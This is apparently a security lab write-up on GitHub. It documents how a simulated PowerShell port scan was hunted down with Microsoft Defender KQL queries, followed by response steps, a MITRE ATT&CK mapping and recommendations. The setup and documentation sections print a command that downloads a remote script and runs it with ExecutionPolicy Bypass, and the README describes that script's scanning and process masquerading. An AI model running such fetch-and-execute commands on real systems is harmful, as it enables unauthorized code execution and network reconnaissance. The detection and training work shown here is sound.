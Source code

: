 # 🛡️ Threat Hunting Project: Entropy Gorilla Port Scan

## 📁 Overview
This project documents the investigation, analysis, and response to an internal network scanning incident using Microsoft Defender for Endpoint (MDE), Azure, and PowerShell. The port scan was traced to a script executed on a Windows VM named `labuser`, using the SYSTEM account.

---

## 💣 Initial Setup: Simulated Attack
Before starting the hunt, a PowerShell-based port scanning script was intentionally executed on a VM to simulate malicious behavior and generate logs for threat hunting.

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

![Ran malicious code inside VM](https://github.com/user-attachments/assets/5b435f36-df4b-456d-8404-925af98891c6)

What the Malicious Script Does:

- The PowerShell script portscan.ps1 simulates an internal reconnaissance attack:

- Scans the IP range 10.0.0.4 to 10.0.0.10.

- Uses Test-NetConnection to ping each host and test for open TCP ports.

- Targets a list of common ports (e.g., 22, 80, 443, 3389).

- Logs results (open/closed) to C:\ProgramData\entropygorilla.log.

- Masquerades as a legitimate Windows process by naming itself RuntimeBroker.exe.
---

## 🚩 Scenario Summary
- A VM showed suspicious `ConnectionFailed` network activity.
- PowerShell script `portscan.ps1` was downloaded and executed.
- The scan targeted the internal subnet (10.0.0.0/16), using common ports.
- The script mimicked a system process (`RuntimeBroker.exe`).
- Activity mapped to multiple MITRE ATT&CK TTPs.

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: An internal asset is scanning local network hosts.
- Reason: High failed connection volume and unrestricted PowerShell use.

### 2. Data Collection
Queried the following tables in MDE Advanced Hunting:
```kql
- `DeviceNetworkEvents`
| where DeviceName == "labuser"
| where ActionType == "ConnectionFailed"
| summarize count() by DeviceName, ActionType, LocalIP
| order by count_
```
![Screenshot 2025-06-15 231048](https://github.com/user-attachments/assets/7e487c1b-0ee1-4e7d-abc6-8632f51eaff2)

### 3. Data Analysis
Confirmed host `10.0.0.95` showed excessive failed connections.
```kql
let IPInQuestion = "10.0.0.95";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

📸 Screenshot: `Screenshot 2025-06-15 232635.png` (Network analysis showing failed connections)

### 4. Investigation
Used `DeviceProcessEvents` to locate scripts run during the attack:
```kql
let VMName = "labuser";
DeviceProcessEvents
| where DeviceName == VMName
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, ActionType
```

Identified the script:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📸 Screenshots:
- `Screenshot 2025-06-15 234201.png` (Process creation detection)
- `Logged in to suspicious VM to check the file and the malicious script.PNG`

### 5. Response
Steps taken:
- ✅ Isolated the VM (`labuser`) using Microsoft Defender.
- ✅ Removed malicious file: `C:\programdata\portscan.ps1`
- ✅ Rebuilt the VM from Azure Portal.
- ✅ Enabled PowerShell Script Block & Module Logging.

📸 Screenshot: `Screenshot 2025-06-15 234540.png` (Device isolation in MDE)

### 6. Documentation
Script downloaded via:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

📎 All screenshots are archived per investigation phase.

### 7. Improvement
- 🔐 Hardened PowerShell logging.
- 📊 Created detection rule for excessive `ConnectionFailed` logs.
- 🧼 Reviewed scheduled tasks and services on critical assets.

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic              | Technique                            | ID         |
|---------------------|----------------------------------------|------------|
| Discovery           | Network Service Scanning              | T1046      |
| Discovery           | Remote System Discovery               | T1018      |
| Execution           | PowerShell                            | T1059.001  |
| Defense Evasion     | Masquerade Task or Service            | T1036.004  |
| Execution           | User Execution: Malicious File        | T1204.002  |
| Persistence*        | Create/Modify System Process          | T1543.003  |

---

## 📌 Recommendations
- Configure alerts for anomalous PowerShell execution.
- Lock down PowerShell usage via GPO or AppLocker.
- Monitor for file names mimicking system processes.
- Tune SIEM rules to detect local lateral movement patterns.

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Azure Portal (VM Deployment & Management)
- Windows PowerShell ISE
- PowerShell Logging Registry Policies

---

Project maintained by: Felipe Restrepo
Date: June 16, 2025
